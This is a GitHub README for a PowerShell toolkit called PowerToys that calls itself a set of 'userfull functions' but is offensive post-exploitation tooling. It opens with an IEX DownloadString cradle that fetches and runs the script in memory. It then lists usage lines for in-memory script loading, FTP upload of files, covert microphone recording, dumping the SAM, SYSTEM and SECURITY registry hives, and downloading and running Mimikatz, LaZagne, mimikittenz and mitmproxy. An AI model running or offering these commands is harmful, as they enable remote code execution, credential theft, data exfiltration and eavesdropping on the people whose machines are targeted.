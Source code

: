 ![alt tag](https://raw.githubusercontent.com/maxpowersi/PowerToys/master/icon.png)
# PowerToys v1.0
PowerToys is a powershell collection of userfull functions like ftp upload, download functions, run in memory, unzip functions, etc. It is distributed under the GNU GPLv3 license. Before use a function, you must load the script in memory.
```
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/maxpowersi/PowerToys/master/powertoys.ps1")
```
## List of tools
### Download
This function download a file from an URL.
```
Download -url "https://example.com/file.txt" -outfile "c:\windows\temp\file.txt"
```
### DownloadScript
This function download and load in memory a powershell script from an URL.
```
DownloadScript -url "http://example.com/a.ps1" 
```
### Unzip
This function allows unzip a file in speficif folder.
```
Unzip -zipfile "myzip.zip" -path "c:\windows\temp"
```
### UploadFtp
This function allows upload a file to FTP server.
```
UploadFtp -address "192.168.0.1" -username "username" -password "password" -pathFileName "/folder/file.txt" -uploadfile "file.txt"
```
### RunVoiceRecord
This functions allows record from mic.
```
RunVoiceRecord -fullPathOutput "C:\windows\temp\secret.wav" -seconds 120
```
### DumpHives
This functio dump sam, system and security from register hives.
```
DumpHives -dumpfolder "C:/windows/temp"
```
### RunMitmp
This function download, and run mitmproxy, in the 8080 port.
```
RunMitmp
```
### RunLazagne
This function download, unzip, and run Lazagne.
```
RunLazagne
```
### RunMimikatz
This function download and run mimikatz from Powersploit.
```
RunMimikatz
```
### RunMimikittenz
This function download and run mimikittenz.
```
RunMimikittenz
```
